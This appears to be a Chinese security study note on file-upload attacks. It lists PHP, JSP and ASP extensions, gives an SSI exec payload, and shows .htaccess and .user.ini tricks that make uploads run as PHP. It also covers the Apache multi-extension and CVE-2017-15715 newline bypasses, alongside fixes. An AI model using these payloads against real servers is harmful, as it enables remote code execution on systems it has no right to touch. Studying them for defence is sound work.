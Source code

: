 中间件配置不当，导致可以解析其他脚本后缀

```php
# php
.php3 .php4 .php5  .pht  .phtml  .phar  .shtml 
    
# .shtml    
<pre>
<!--#exec cmd="whoami" -->
</pre>
    
# jsp    
.jsp .jspa .jsps .jspx 
    
# .net
.asp  .asa .cdx  .cer  .aspx .asmx  .ashx
```

- 可以上传相关配置文件

  - .htaccess

    [CTF.htaccess的使用技巧总结_.htaccess ctf_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/116666720)

    只能用于Apache

    ```ini
    # 当文件名中包含shell时，该文件会被Apache当作php解析
    <FilesMatch "shell">
    SetHandler application/x-httpd-php
    </FilesMatch>
    
    #.png文件也可以执行php程序
    AddType application/x-httpd-php .png 
    
    # 开启了cgi扩展：扩展名为.yyy的文件作为 CGI 脚本来处理
    Options +ExecCGI
    AddHandler cgi-script .yyy
    ```

    修复

    ```
    在配置文件中将AllowOverride ALL改为AllowOverride None
    ```

  - .user.ini

    使用条件

    ```
    Apache和Nginx都可以，只需满足：
    服务器脚本语言为PHP 服务器使用CGI
    FastCGI模式
    上传目录下要有可执行的php文件
    ```

    payload

    ```ini
    auto_prepend_file=file_name  #表示在加载第一个PHP代码之前先行预加载该配置所指示的PHP文件。
    
    auto_append_file=file_name  #表示在加载第一个PHP代码之后执行预加载该配置所指示的PHP文件。
    ```

- 过滤不当

  ```php
  点绕过、空格绕过、后缀双写绕过、后缀大小写绕过
  ```

- Apache解析漏洞

  - 从右往左解析漏洞

    产生原因：

    前提：**php作为apache的一个子模块来运行**

    ![image-20230617172156170](../../../../images/image-20230617172156170.png)

    apache支持一个文件拥有多个后缀，并为不同后缀执行不同的指令，如果运维人员给`.php` 后缀增加了处理器

    ```ini
    AddHandler application/x-httpd-php .php
    ```

    Apache会从右向左，依次识别后缀，直到遇到自己能解析的文件名为止。那么，在有多个后缀的情况下，只要一个文件含有`.php` 后缀的文件即将被识别成 PHP 文件。

    假设上传的文件名为

    ```php
    xxxx.php.xyz
    ```

    这时候最后一个可识别的扩展为.php，会将其作为php文件进行解析，轻松绕过**黑白名单**。

    

    vulhub复现

    ![image-20230617172318530](../../../../images/image-20230617172318530.png)

    本地cgi模式复现

  ![image-20230617172525788](../../../../images/image-20230617172525788.png)

  ![image-20230617172355992](../../../../images/image-20230617172355992.png)

  

  - HTTPD换行解析漏洞--CVE-2017-15715

    产生原因：

    配置中的正则缺陷

    ```php
    <FilesMatch "[^ .]+\.php$">
        SetHandler application/x-httpd-php 
    </FilesMatch>
    ```

    正则表达式中$不仅匹配字符串结尾位置，也可以匹配\n 或 \r，从而导致可以上传`.php\n`绕过**黑名单**校验，同时也可以被作为PHP文件解析。（不能是`.php\r\n`）

    payload

    ```
    上传：1.php\x0a
    访问：1.php%0a
    ```

    

  上述漏洞修复：因为Apache的解析漏洞是由于畸形扩展名和畸形文件名导致的，所以使用白名单，并对文件重命名，文件就不会存在畸形字符和多扩展名的情况。

  参考如下代码

  ```php
  <?php
  # $_FILES['file']['name']会自动把换行去掉
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  
  //...其他检查
  if(in_array($ext, ['gif', 'jpg', 'jpeg', 'png'], true)) {
          $new_name = './upload/' . uniqid() . '.' . $ext;
          move_uploaded_file($_FILES['file']['tmp_name'], $new_name);
  }
  ?>
  ```

  